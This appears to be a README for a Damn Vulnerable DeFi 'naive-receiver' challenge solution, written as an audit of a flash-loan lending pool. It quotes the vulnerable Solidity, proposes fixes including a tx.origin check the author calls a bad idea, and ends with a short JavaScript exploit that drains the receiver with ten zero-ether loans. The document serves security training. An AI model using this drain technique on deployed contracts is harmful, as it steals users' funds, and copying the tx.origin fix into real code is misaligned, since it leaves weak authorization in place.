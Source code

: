 # Damn Vulnerable DeFi

Damn Vulnerable DeFi is the wargame to learn offensive security of DeFi smart contracts.

Throughout numerous challenges you will build the skills to become a bug hunter or security auditor in the space.

https://www.damnvulnerabledefi.xyz/

# Introduction

naive-receiver is the second challenge in the Damn Vulnerable DeFi series.

Challenge description: 
There's a lending pool offering quite expensive flash loans of Ether, which has 1000 ETH in balance.
You also see that a user has deployed a contract with 10 ETH in balance, capable of interacting with the lending pool and receiveing flash loans of ETH.
Drain all ETH funds from the user's contract. Doing it in a single transaction is a big plus ;)

Challenge goal:
Transfer all the ether in the FlashLoanReceiver contract to NaiveReceiverLender contract.

# Findings 

## Critical Risk
### No Access Control

**Context:** [`FlashLoanReceiver.sol#L21-L32`](https://github.com/tahos81/damn-vulnerable-defi-solutions/blob/master/contracts/naive-receiver/FlashLoanReceiver.sol) and [`NaiveReceiverLenderPool.sol#L21-L41`](https://github.com/tahos81/damn-vulnerable-defi-solutions/blob/master/contracts/naive-receiver/NaiveReceiverLenderPool.sol)

**Description:**
NaiveReceiverLenderPool contract does not check who is calling the flashLoan function and FlashLoanReceiver only checks if the msg.sender is pool, so anybody can take flash loans on behalf of FlashLoanReceiver contract.

```solidity
function receiveEther(uint256 fee) public payable {
    require(msg.sender == pool, "Sender must be pool");

    uint256 amountToBeRepaid = msg.value + fee;

    require(address(this).balance >= amountToBeRepaid, "Cannot borrow that much");
        
    _executeActionDuringFlashLoan();
        
    // Return funds to pool
    pool.sendValue(amountToBeRepaid);
}
```
**Recommendation:**
disclaimer: using tx.origin for authorization is a bad idea, but it's the only way I found without changing the whole flash loan logic.
flashLoanReceiver should designate trusted address-es and check if tx.origin is trusted in receiveEther function.

```diff
+ address trustedAddress;
+ require(tx.origin == trustedAddress, "only trusted address can initiate loans");
- 
```

## Medium Risk
### No zero borrowAmount check

**Context:** [`NaiveReceiverLenderPool.sol#L21-L41`](https://github.com/tahos81/damn-vulnerable-defi-solutions/blob/master/contracts/naive-receiver/NaiveReceiverLenderPool.sol)

**Description:** 
flashLoan function in NaiveReceiverLenderPool contract does not check if the borrowAmount is nonzero which can lead to users paying fees for nothing(zero ether loans).

```solidity
function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {

    uint256 balanceBefore = address(this).balance;
    require(balanceBefore >= borrowAmount, "Not enough ETH in pool");


    require(borrower.isContract(), "Borrower must be a deployed contract");
    // Transfer ETH and handle control to receiver
    borrower.functionCallWithValue(
        abi.encodeWithSignature(
            "receiveEther(uint256)",
            FIXED_FEE
        ),
        borrowAmount
    );
        
    require(
        address(this).balance >= balanceBefore + FIXED_FEE,
        "Flash loan hasn't been paid back"
    );
}
```

**Recommendation:**
flashLoan function should check if the borrowAmount is nonzero.

```diff
+ require(borrowAmount > 0, "borrowAmount must be nonzero");
-
```

# How To Solve The Challenge
take 10 zero ether flash loans on behalf of FlashLoanReceiver contract.

**Context:** [`naive-receiver.challenge.js#L32-L36`](https://github.com/tahos81/damn-vulnerable-defi-solutions/blob/master/test/naive-receiver/naive-receiver.challenge.js)

```javascript
it('Exploit', async function () {
    for (let i = 0; i < 10; i++) {
        await this.pool.connect(attacker).flashLoan(this.receiver.address, 0);
    }
});
```